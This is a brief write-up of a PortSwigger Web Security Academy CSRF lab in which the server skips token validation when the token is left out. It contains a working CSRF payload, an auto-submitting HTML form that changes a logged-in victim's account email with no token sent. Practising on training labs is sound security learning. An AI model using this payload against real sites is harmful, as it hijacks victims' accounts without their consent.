 
#CSRF #CSRF-Tokens 

CSRF where token validation depends on token being present: [link](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)

Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

in this challenge you should just escape sending csrf token

**payload :**

```
<html>

<form class="login-form" name="change-email-form"

action="https://0ae9008a04bc104b80848519004b0019.web-security-academy.net/my-account/change-email" method="POST">

<label>Email</label>

<input required="" type="email" name="email" value="neewwmail@gmail.com">

<button class="button" type="submit"> Update email </button>

</form>

<script>

document.forms[0].submit()

</script>

</html>
```
